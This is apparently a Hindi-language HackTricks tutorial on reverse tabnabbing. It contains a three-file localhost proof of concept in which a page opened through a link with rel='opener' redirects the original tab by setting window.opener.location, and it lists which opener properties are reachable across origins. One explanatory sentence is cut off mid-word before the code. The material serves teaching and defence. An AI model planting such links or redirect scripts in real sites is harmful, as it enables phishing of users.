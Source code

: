 <details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप अपनी कंपनी की विज्ञापनित करना चाहते हैं **HackTricks** में या **HackTricks को PDF में डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड ग्रुप**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम ग्रुप**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>


# विवरण

एक स्थिति में जहाँ एक **हमलावर** एक **`<a`** टैग के **`href`** आर्ग्यूमेंट को **नियंत्रित** कर सकता है जिसमें **`target="_blank" rel="opener"`** विशेषता है जिसे किसी पीड़ित द्वारा क्लिक किया जाएगा, तो **हमलावर** इस **लिंक** को अपने नियंत्रण वाली वेब पर (एक **हानिकारक** **वेबसाइट**) दिखा सकता है। फिर, जब **पीड़ित लिंक पर क्लिक** करता है और हमलावर की वेबसाइट तक पहुंचता है, तो यह **हानिकारक वेबसाइट** **जावास्क्रिप्ट ऑब्ज
```markup
<!DOCTYPE html>
<html>
<body>
<h1>Victim Site</h1>
<a href="http://127.0.0.1:8000/malicious.html" target="_blank" rel="opener">Controlled by the attacker</a>
</body>
</html>
```
{% endcode %}

{% code title="malicious.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<script>
window.opener.location = "http://127.0.0.1:8000/malicious_redir.html";
</script>
</body>
</html>
```
{% endcode %}

{% code title="malicious_redir.html" %}
```markup
<!DOCTYPE html>
<html>
<body>
<h1>New Malicious Site</h1>
</body>
</html>
```
## पहुंचने योग्य गुणसूचियाँ <a href="#accessible-properties" id="accessible-properties"></a>

जब **क्रॉस-स्थानीय** पहुंचन (विभिन्न डोमेनों के बीच पहुंचन) होती है, तो एक दुर्भाग्यपूर्ण साइट द्वारा पहुंची जा सकने वाली **विंडो** जावास्क्रिप्ट क्लास उदाहरण की गुणसूचियों को निम्नलिखित तक ही सीमित किया जाता है, जिनमें से कुछ निम्नलिखित हैं:

- **`opener.closed`**: इस गुणसूची का उपयोग इसका निर्धारण करने के लिए किया जाता है कि क्या एक विंडो बंद की गई है, जो एक बूलियन मान लौटाता है।
- **`opener.frames`**: यह गुणसूची मौजूदा विंडों के सभी आईफ्रेम तत्वों तक पहुंच प्रदान करती है।
- **`opener.length`**: इस गुणसूची द्वारा मौजूदा विंडों में मौजूद आईफ्रेम तत्वों की संख्या लौटाई जाती है।
- **`opener.opener`**: वर्तमान विंडो को खोलने वाली विंडो का संदर्भ इस गुणसूची के माध्यम से प्राप्त किया जा सकता है।
- **`opener.parent`**: यह गुणसूची वर्तमान विंडो के माता-पिता विंडो को लौटाती है।
- **`opener.self`**: इस गुणसूची द्वारा वर्तमान विंडो खुद का पहुंच प्रदान किया जाता है।
- **`opener.top`**: यह गुणसूची सबसे ऊपरी ब्राउज़र विंडो को लौटाती है।

हालांकि, जब डोमेन समान होते हैं, तो दुर्भाग्यपूर्ण साइट को [**विंडो**](https://developer.mozilla.org/en-US/docs/Web/API/Window) जावास्क्रिप्ट ऑब्जेक्ट संदर्भ द्वारा उजागर किए गए सभी गुणसूचियों तक पहुंच मिलती है।

# रोकथाम

रोकथाम सूचनाएँ [HTML5 Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/HTML5\_Security\_Cheat\_Sheet.html#tabnabbing) में दर्ज की गई हैं।

## संदर्भ

* [https://owasp.org/www-community/attacks/Reverse_Tabnabbing](https://owasp.org/www-community/attacks/Reverse_Tabnabbing)
